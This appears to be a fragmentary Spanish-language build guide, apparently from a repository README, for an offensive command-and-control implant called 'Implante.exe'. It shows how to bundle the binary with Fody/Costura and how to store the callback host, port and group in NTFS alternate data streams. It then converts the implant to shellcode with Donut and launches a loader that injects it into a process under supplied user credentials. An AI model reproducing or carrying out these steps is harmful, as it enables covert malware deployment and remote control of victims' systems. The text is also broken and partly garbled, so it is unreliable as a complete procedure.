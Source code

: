 
Instalar using Newtonsoft.Json;

Instalar fody y costura.fody
```
dotnet add package Fody --version 6.8.0
dotnet add package Costura.Fody --version 5.7.0
```

Compilar

## Establecer host puerto y grupo
```powershell
Set-Content -Path ".\Implante.exe:Route" -Value "127.0.0.1"; Set-Content -Path ".\Implante.exe:Port" -Value "4000"; Set-Content -Path ".\Implante.exe:Group" -Value "Grupo"
```
Donut
```
.\donut.exe -a 2 -f 1 -i Implante.exe -o loader.bin
```


 dir ..\Implants\windows\no_ssl\base.exe:


 ```
exec_as user password .\Loader.exe "process.exe" &
```